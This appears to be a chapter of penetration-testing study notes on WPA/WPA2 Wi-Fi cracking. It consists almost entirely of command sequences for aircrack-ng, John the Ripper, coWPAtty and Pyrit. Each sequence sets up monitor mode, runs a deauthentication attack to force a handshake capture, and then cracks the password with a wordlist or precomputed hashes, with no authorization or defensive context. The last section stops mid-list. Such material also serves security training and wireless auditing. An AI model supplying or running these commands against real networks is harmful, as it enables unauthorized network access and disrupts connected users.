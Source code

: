 # Chapter 6 - WPA
## WPA/WPA2
https://www.youtube.com/watch?v=Ra0dGPYScLQ

## Quick Notes

```

## Cracking with Aircrack-ng

   airmon-ng start <interface> <AP_Channel>                                        ## setting the wireless card (wlan0) to monitor mode
   airodump-ng -c <AP_Channel> --bssid <AP_MAC> -w <capture_file> <interface>      ## listening to the target AP on the specified channel
   aireplay-ng -0 1 -a <AP_MAC> -c <Client_MAC> <interface>                        ## performing a deauthentication attack against AP to capture the handshake packet
   aircrack-ng -w <wordlist> <capture_file>                                        ## cracking WPA password with aircrack-ng
   
   
## Cracking with JTR and Aircrack-ng

   airmon-ng start <interface> <AP_Channel>                                                       ## setting the wireless card (wlan0) to monitor mode
   airodump-ng -c <AP_Channel> --bssid <AP_MAC> -w <capture_file> <interface>                     ## listening to the target AP on the specified channel
   aireplay-ng -0 1 -a <AP_MAC> -c <Client_MAC> <interface>                                       ## performing a deauthentication attack against AP to capture the handshake packet
   ./john --wordlist=<wordlist> --rules --stdout | aircrack-ng -e <ESSID> -w - <capture_file>     ## cracking WPA password with JTR and aircrack-ng 
  
  
## Cracking with coWPAtty
  
   airmon-ng start <interface> <AP_Channel>                                         ## setting the wireless card (wlan0) to monitor mode
   airodump-ng -c <AP_Channel> --bssid <AP_MAC> -w <capture_file> <interface>       ## listening to the target AP on the specified channel
   aireplay-ng -0 1 -a <AP_MAC> -c <Client_MAC> <interface>                         ## performing a deauthentication attack against AP to capture the handshake packet
   cowpatty -r <capture_file> -f <wordlist> -2 -s <ESSID>                           ## cracking WPA password with coWPAtty in dictionary mode
   or
   genpmk -f <wordlist> -d <hashes_file> -s <ESSID>                                 ## generating hashes to crack WPA password in coWPAtty with rainbow table mode
   cowpatty -r <capture> -d <hashes_file> -2 -s <ESSID>                             ## cracking WPA password with coWPAtty using generated hashes
 
  
## Cracking with Pyrit

   airmon-ng start <interface> <AP_Channel>                                  ## setting the wireless card (wlan0) to monitor mode
   pyrit -r <interface> -o <capture_file> stripLive                          ## using pyrit to sniff in monitor mode interface by saving the capture process to a file
   aireplay-ng -0 1 -a <AP_MAC> -c <Client_MAC> <interface>                  ## performing a deauthentication attack against AP to capture the handshake packet
   pyrit -r <capture_file> -i <wordlist> -b <AP_MAC> attack_passthrough      ## cracking WPA password with pyrit in dictionary mode
   or
```